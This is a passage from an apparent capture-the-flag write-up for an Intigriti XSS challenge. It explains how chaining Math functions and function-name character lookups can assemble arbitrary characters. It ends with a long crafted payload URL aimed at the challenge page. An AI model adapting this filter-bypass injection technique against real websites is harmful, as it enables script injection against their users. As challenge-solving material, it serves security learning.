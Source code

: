 ```bash
$ node solver.js 9 40
Math.clz32,Math.cosh,Math.log2,Math.ceil
40
```

To get 40 from the 9 we could use the payload `Math.clz32,Math.cosh,Math.log2,Math.ceil` which will execute in the order `Math.ceil(Math.log2(Math.cosh(Math.clz32(9))))`. Then we apply `String.fromCharCode`. So final payload for this character is `Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push` and the character is pushed. After this the array length is going to be 10, we could repeat the same process to get `d` character by applying `tan` to it since `cos` and `sin` are negative yielding back $0.6483608274590866$ and then where do we get the `d` from? Well we don’t really need to only use the names of functions inside the `Math` object we could escalate to another object and use the names of functions there. Here I just escalated to the `Object` object and there is a property there called `defineProperties` in which we could get the `d` char.

```js
> Math.constructor
< function Object()
< 	assign: function assign()
< 	create: function create()
< 	defineProperties: function defineProperties()
< 		length: 2
< 		name: "defineProperties"
```

Alright the payload is then `Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push`. Some characters as I said before, don’t have index 0 but a greater one like 1, 2, 3 or even 4. We could in this case function like `Math.log10` to get a number inside that range or `Math.log1p` you could just try them all until you get the desired number. For example we need the character `o`. When searching for it, I first found it in the `round` string with index = 1. And after pushing the last character, push returned 11. Applying log10 to 11 will return 1.04. And so on and so far, until you generate all needed characters. The script is used for the character `.` and `)` later and that’s all.

These are the steps we executed till this point:

```
https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push
```
